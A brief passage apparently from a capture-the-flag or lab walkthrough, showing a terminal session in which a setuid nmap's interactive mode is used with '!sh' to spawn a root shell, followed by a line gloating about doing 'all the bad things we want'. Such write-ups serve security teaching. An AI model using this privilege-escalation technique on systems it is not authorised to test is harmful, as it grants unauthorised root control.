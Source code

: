 ```
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

Finally we have a shell with privileges! Now we can do all the bad things we want.